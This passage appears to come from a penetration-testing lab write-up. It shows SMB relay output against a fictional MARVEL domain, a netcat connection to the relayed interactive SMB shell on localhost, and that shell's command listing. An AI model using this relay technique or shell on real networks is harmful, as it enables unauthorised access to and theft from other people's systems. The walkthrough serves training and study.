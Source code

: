 ```

[*] Servers started, waiting for connections
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.4
[*] Authenticating against smb://10.0.2.4 as MARVEL/FCASTLE SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.6
[-] Authenticating against smb://10.0.2.6 as MARVEL/FCASTLE FAILED
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, but there are no more targets left!

```

Note the IP and port number in the output above: `"Started interactive SMB
client shell via TCP on 127.0.0.1:11000"`. We can then open a new tab and bind
(connect) to the shell with netcat.

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ nc 127.0.0.1 11000        
Type help for list of commands
# help

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 lls {dirname} - lists all the files on the local filesystem.
 tree {filepath} - recursively lists all files in folder and sub folders
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 mget {mask} - downloads all files from the current directory matching the provided mask
 cat {filename} - reads the filename from the current path
 mount {target,path} - creates a mount point from {path} to {target} (admin required)
 umount {path} - removes the mount point at {path} without deleting the directory (admin required)
 list_snapshots {path} - lists the vss snapshots for the specified path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)
 close - closes the current SMB Session
 exit - terminates the server process (and this session)


```